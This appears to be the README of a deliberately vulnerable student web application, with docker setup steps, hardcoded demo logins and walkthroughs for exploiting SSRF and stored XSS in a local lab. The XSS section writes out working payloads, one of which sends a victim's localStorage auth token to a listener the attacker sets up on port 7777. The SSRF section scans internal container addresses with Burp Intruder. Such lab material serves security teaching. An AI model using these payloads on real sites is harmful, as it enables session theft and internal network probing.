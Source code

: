 Prerequisites

1. Make sure you have downloaded and installed 'docker' and 'docker compose'.


Steps to run the program

1. Download the zip file and extract
2. Go inside the root directory of the project(Vulnerable-Calibre)
3. Right-click and open the terminal(make sure you are in the root directory of the project)
4. Run the command "docker-compose build"
5. Once the project is built run the command "docker-compose up"
6. Use http://localhost:3000 to access the application.
7. You can login into the system using the following login credentials. 
	student ->	username: IT20194680@my.sliit.lk
		      password: IT20194680@my.sliit.lk

	staff   ->	username: IT20194680@my.sliit.lk
			password: IT20194680@my.sliit.lk

	admin   ->  username: chathushkarodrigo@gmail.com
			password: happy123


SSRF - Server-Side Request Forgery

Detection

1. A network is vulnerable to SSRF attack when a link is accepted from the client side to the server side.
2. Once such feauture exist in Upload picture for ID feature
3. Make sure you open burpsuit application
4. This feature can be accesed by logging into Student account and clicking on Upload picture for ID button(To login as a student use the username and password listed above)
5. Once this is done turn on intercept and send the request and observe it in burpsuite


Exploitation
1. To exploit the application change the payload in delivered to a public ip
2. This can be done using intruder to scan the local ip range
3. In this project we have three applications backend, frontend and vulnerable server
4. Vulnerable server is running on port 7777
5. To find out the ip of the containers use the following command

docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' name or id of the container
example: docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' vulnerable-calibre_vulnerable_1

You can find the name or id of the containers by running the command 'docker ps'


6. Use the following command to find the ip of the vulnerable container and use that ip address with the port 3000 to access the frontend of the application and login to the application(make sure you do this step in browser provided by burpsuit)

7. Use the credentials given below to login
	student ->	username: IT20194680@my.sliit.lk
		        password: IT20194680@my.sliit.lk
		        
8. Once logged in go to Upload picture for ID feature section

9. Now turn on intercept in the burpsuite

10. Add a link in the textbox and send the request

11. Once the request is intercepted by the burpsuite send it to the repeater

12. Since we can find out the ip of the container we will use this ip with the port number and send the request to exploit the application(example: http://172.18.0.2:7777)

13. As you can see we get the request from the vulnerable server

14. We could use the Intruder feature provided by burbsuite to scan the whole network since the range of public address is already known


Second Order Blind XSS

Detection

1. Login as an admin and navigate to marks configuration > status document mark configuration.
2. Enter invalid data format input into a text box.
3. Checking whether the form is submitted
4. If the form response is submitted it confirms whether the form has no input validation

Exploitation

1.Login as admin user and navigate -> Marking Configuration -> Status Document Configuration -> Form 

Enter the following malicious code (script 1 and script 2 separately)into the text box. 
	++ Script 1 ++

Click  <b onmouseover='async function fetchAsync (url) {var token = localStorage.getItem("authToken");await fetch("http://localhost:7777?token="+token);await response.json()} fetchAsync()'>Me</b> <b onmouseover='alert("I now have your Data You are hacked !")'>NOW </b> <b onmouseover='localStorage.removeItem("authToken");   window.location.reload();'> Get Out </b>

	++ script 2 ++

<img onmouseover='alert(localStorage.getItem("authToken"));' src='invalid-image' />


2. open a new terminal and enter "python3 -m http.server 7777" 
3. Check whether the form is submitted properly
4. Login as a victim and navigate to 'add marks' 
5. Again navigate to enter status document 1 marks
6. Hover on injected code variable
7. Blindly user exploited successfully (view hosted terminal to view victim data)
8. Repeat the same step for malicious code number 2

	









